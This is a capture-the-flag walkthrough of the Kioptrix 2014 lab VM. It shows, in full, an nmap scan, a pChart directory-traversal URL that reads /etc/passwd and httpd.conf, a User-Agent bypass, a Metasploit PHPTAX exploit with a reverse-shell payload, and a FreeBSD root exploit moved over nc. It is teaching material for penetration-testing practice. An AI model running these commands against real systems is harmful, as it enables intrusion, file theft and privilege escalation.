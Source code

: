 # Kioptrix 2014

`tar -xf Kioptrix.tar.bz`
**Note:** I did have some trouble with VMWare Player with this VM. I couldn’t get NAT networking to work right away, so I had to delete and re-add the Network adapter before it would work. Something to keep in mind if you run into trouble.

![](https://i.imgur.com/OyB5KmV.png)
Host is `192.168.227.128`
![](https://i.imgur.com/tkPxdD1.png)
Victim is `192.168.227.129`
`nmap -sS -sV -A -p- -oN NmapKioptrixLv4.txt 192.168.227.129`
![](https://i.imgur.com/ys8IevP.png)
We got only SSH and 2 Web service, SSH in closed, that's weird. Web on 8080 is forbiddened, there might be something that block these.
Let's take a look what Web is.
![](https://i.imgur.com/bJdie07.png)
Nothing.
`dirb` it.
![](https://i.imgur.com/xnA7GJ3.png)
Nope.
How about web in 8080.
![](https://i.imgur.com/n4QU5yO.png)
How about source of the page?
Port: 80
![](https://i.imgur.com/FVjtHke.png)
Port: 8080
![](https://i.imgur.com/dKIbT0P.png)
Something interestin here in port 80 page source: 
```html=
 <head>
  <!--
  <META HTTP-EQUIV="refresh" CONTENT="5;URL=pChart2.1.3/index.php">
  -->
 </head>
```
`pChart2.1.3` seems a service.
![](https://i.imgur.com/xwioECF.png)

Google it with more infomation, then [it](https://www.exploit-db.com/exploits/31173) show that 
> PHP library pChart 2.1.3 (and possibly previous versions) by default
contains an examples folder, where the application is vulnerable to
Directory Traversal and Cross-Site Scripting (XSS).
Now, we simply modified the leaking info URL with our parameters: `http://192.168.227.129/pChart2.1.3/examples/index.php?Action=View&Script=%2f..%2f..%2fetc/passwd`
![](https://i.imgur.com/dAjbDOO.png)
And the LFI lead us got AC/service here.
However, we got bad news here and it explain why SSH is closed and port 8080 is forbiddened.
The OSSEC, which is a Host Intrusion Detection System (HIDS), and it normally comes with some rules that will automatically block any brute force attacks.

Virtual hosts are normally configured in an Apache configuration file. On Linux, the `/etc/apache2/apache2.conf` file and see what was there. However this machine isn’t Linux, it’s FreeBSD. So after a bit of digging, we found that on FreeBSD, the Apache configuration file is located at `/usr/local/etc/apache22/httpd.conf` instead.

Let's LFI the file, `curl "http://192.168.127.141/pChart2.1.3/examples/index.php?Action=View&Script=%2f..%2f..%2fusr/local/etc/apache22/httpd.conf" | html2text`
![](https://i.imgur.com/0PLmFvw.png)
In the end of the file, we saw the virtaul machine setting the only allow the flag in header which specified that `Mozilla4_browser`
Let's use `curl` flag to get the content.
`curl -H "User-Agent:Mozilla/4.0" http://192.168.227.129:8080/`
![](https://i.imgur.com/0abI6i6.png)
Now we see the service on 8080 is PHPTAX, so what's the version? that might be vulnerable.
![](https://i.imgur.com/3PsOOvK.png)
Nope. We need to step back to the raw.
![](https://i.imgur.com/steLYfb.png)
Here we got hte phptax version in the header.
We search the exploit, then we find the PoC.
![](https://i.imgur.com/xQP8Gqa.png)
Then we find there's metasploit module already in the `MS`F.
Turn on the `MSF`.
```shell
msfconsole
use exploit/multi/http/phptax_exe
set payload cmd/unix/reverse
show options
set RHOSTS 192.168.227.129
set RPORT 8080
set LHOST eth0
set LPORT 9001
show advanced
set UserAgent Mozilla/4.0
exploit
```
![](https://i.imgur.com/jqwszKZ.png)
![](https://i.imgur.com/IORnB4c.png)
Exploit it.
![](https://i.imgur.com/b7kPrhE.png)
Now we in.
After identified shell's privilege, first we check the OS verion by `uname -a`
![](https://i.imgur.com/NyxQzEX.png)
Search exploit of `FreeBSD 9.0`
![](https://i.imgur.com/Jv4gbcf.png)
Here we got the POE payload, now we need to transfer the payload to the target and compiling it.
First, we check the local env support:
![](https://i.imgur.com/O1u68Cg.png)
Only `nc` & `gcc` installed, but that's enough.
Let setup a service to offer the payload with `nc -nvlp 8080 < /usr/share/exploitdb/exploits/freebsd/local/28718.c`
![](https://i.imgur.com/scGpJtI.png)
![](https://i.imgur.com/nhhEdyb.png)
Use `md5` to check if the payload actually transfer completely.
![](https://i.imgur.com/Ns25b6s.png)
We got root now.
Go to `/root` to `cat` the congratz text.
![](https://i.imgur.com/8dHnBCi.png)


